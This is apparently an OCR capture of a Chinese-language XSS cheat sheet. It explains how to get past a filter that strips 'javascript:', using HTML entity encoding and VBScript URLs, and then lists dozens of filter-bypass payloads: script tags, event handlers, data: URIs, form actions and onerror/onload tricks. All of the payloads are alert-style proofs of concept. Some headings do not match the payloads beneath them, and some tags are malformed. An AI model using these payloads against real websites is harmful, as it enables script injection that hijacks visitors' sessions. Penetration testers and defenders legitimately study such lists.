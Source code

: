 		5. Javascript URL
		链接标签里可以通过在 URL 中使用 javascript:… 来执行 JavaScript：
		<a href="javascript:alert('test')">link</a>
		上面的过滤会从代码中移除 javascript:，所以我们不能直接这么写代码。但我们可以尝试改变 javascript:的写法，使它依旧可以被浏览器执行但又不匹配正则表达式。首先来尝试下 URL 编码：
		<a href="java&#115;cript:alert('xss')">link</a>
		上面这段代码不匹配正则表达式，但是浏览器依旧会执行它，因为浏览器会首先进行 URL 解码操作。
		另外，我们还可以使用 VBScript，虽然它在 IE11 中被禁用了，但依旧可以运行在旧版本的 IE 或者启用兼容模式的 IE11 上。我们可以使用类似上面 JavaScript 的方式来插入 VBScript 代码：
		<a href='vbscript:MsgBox("XSS")'>link</a>
		'-confirm`1`-'
		'-confirm(1)-'
##绕过技术

		1 利用字符编码
		%c1;alert(/xss/);//

		2 绕过长度限制
		"onclick=alert(1)//
		"><!--
		--><script>alert(xss);<script>

		3 使用<base>标签
		<script>alert(navigator.userAgent)<script>
		<script>alert(88199)</script>
		<script>confirm(88199)</script>
		<script>prompt(88199)</script>
		<script>\u0061\u006C\u0065\u0072\u0074(88199)</script>
		<script>+alert(88199)</script>
		<script>alert(/88199/)</script>
		<script src=data:text/javascript,alert(88199)></script>
		<script src=&#100&#97&#116&#97:text/javascript,alert(88199)></script>
		<script>alert(String.fromCharCode(49,49))</script>
		<script>alert(/88199/.source)</script>
		<script>setTimeout(alert(88199),0)</script>
		<script>document['write'](88199);</script>
		
		<anytag onmouseover=alert(15)>M
		<anytag onclick=alert(16)>M
		<a onmouseover=alert(17)>M
		<a onclick=alert(18)>M
		<a href=javascript:alert(19)>M
		<button/onclick=alert(20)>M
		<form><button
		formaction=javascript&colon;alert(21)>M
		<form/action=javascript:alert(22)><input/type=submit>
		<form onsubmit=alert(23)><button>M
		<form onsubmit=alert(23)><button>M
		<img src=x onerror=alert(24)> 29
		<body/onload=alert(25)>
		
		<body
		onscroll=alert(26)><br><br><br><br><br><br><br>
		<br><br><br><br><br><br><br><br><br><br><br>
		<br><br><br><br><br><br><br><br><br><br><br>
		<br><br><br><br><br><br><br><br><br><br><br>
		<input autofocus>
		